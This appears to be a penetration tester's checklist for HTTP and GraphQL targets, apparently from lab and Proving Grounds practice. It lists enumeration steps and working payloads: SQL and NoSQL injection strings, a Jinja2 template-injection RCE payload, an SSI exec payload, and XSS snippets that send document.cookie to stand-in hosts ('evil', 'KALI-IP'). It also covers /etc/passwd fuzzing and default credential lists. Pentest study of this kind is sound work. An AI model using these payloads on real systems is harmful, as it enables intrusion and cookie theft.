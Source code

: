 ### GraphQL

* [ ] Use inql to dump schemas: `inql -t http://192.168.206.201/graphql -o inql-dump` (https://github.com/doyensec/inql)

### HTTP/HTTPS

* [ ] Nikto
* [ ] Davtest
* [ ] Robots.txt
* [ ] /cgi-bin/
* [ ] Directory enumeration
  * [ ] Recursion
  * [ ] Extensions `/usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt`
* [ ] Vhost enumeration
* [ ] GIT
  * [ ] Download all files `wget -r http://host.com`
  * [ ] Check changes `git diff`
  * [ ] List files: `git ls-files`
  * [ ] Check logs: `git log`
  * [ ] Show patches: `git log -p`
  * [ ] Show specific commit: `git show 5eba8ab3b718a6ab6610186be934ba214e228a58`
  * [ ] Navigate previous commits: `git checkout 94dd0547f4222e5f93674cc551dbcf98589fe668`
  * [ ] Show tree's filenames: `git cat-file -p master^{tree}`
  * [ ] Cat file: `git cat-file -p 5a959db874e0174aa93a1f7eecaf55a5d95f6e11`
  * [ ] Set git identity (to commit files) `git config --global user.name "user"; git config --global user.email "user@email.(none)"`
  * [ ] Commit: `git add -A; git commit -m "pwn"`
  * [ ] Git shell interactions: `GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.120.204:/git-server` (see **Hunit** on Proving Grounds)
* [ ] Public exploits for application
* [ ] Fuzz .php files
  * [ ] Test with FUZZ = /etc/passwd:
* [ ] SQL Injections: `' or 1=1 -- - # //`
* [ ] NoSQL Injections: `username[$ne]=admin&password[$ne]=admin&login=login`
* [ ] SSTI: `${{<%[%'"}}%\.` (https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
  * [ ] RCE: `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
  * [ ] memcached: `memccat --server=192.168.206.59 session:0c4c0507-a016-41c5-9896-0854a93f49d1` (see Shifty box on PG)
* [ ] SSI (.shtml, .stm): `<!--#exec cmd="ls" -->` (more info: https://owasp.org/www-community/attacks/Server-Side\_Includes\_(SSI)\_Injection)
*   [ ] XSS:

    * [ ] Img tag: `<img src='http://evil/?c='+document.cookie>`
    * [ ] Html file injection:

    ```html
    	<html>
    	<body>
    	<script>
    	var r = new XMLHttpRequest();
    	r.open("GET", "http://KALI-IP/" + document.cookie);
    	r.send();
    	</script>
    	</body>
    	</html>
    ```
* [ ] Default credentials:
  * [ ] Default user: `admin, root, application name (joomla, wp_admin), machine/system name`
  * [ ] Default pass: `admin, root, toor, password, 123456`
  * [ ] Default creds list: https://www.qualys.com/docs/qualys-vm-scanning-default-credentials.pdf
* [ ] Brute force login forms (watch for /admin > /admin/ 301s)
  * [ ] use cewl to generate wordlists `cewl -m 5 http://...`